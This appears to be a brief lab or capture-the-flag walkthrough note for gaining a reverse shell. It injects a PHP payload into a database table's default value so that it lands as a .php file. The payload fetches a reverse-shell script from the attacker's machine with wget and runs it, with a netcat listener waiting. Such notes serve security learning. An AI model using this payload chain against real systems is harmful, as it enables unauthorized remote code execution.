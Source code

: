 Video Walkthrough
https://www.youtube.com/watch?v=mHsMCfg_KQw
#### reverse shell
```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.txt
```
edit file to host and ip.
Create a new Database poc.php
Create a new table:
Paste the following php code in the "Default Value" textbox.
```bash - kali
<?php system("wget $KALI:80/Shelly.txt -O /tmp/Shelly.php; php /tmp/Shelly.php"); ?>
```
Below, we can see our table was created in `/usr/local/databases/poc.php`
Now we set up our python server.
![[Python#Server]]
set up your netcat listener
![[1._rlwrap]]
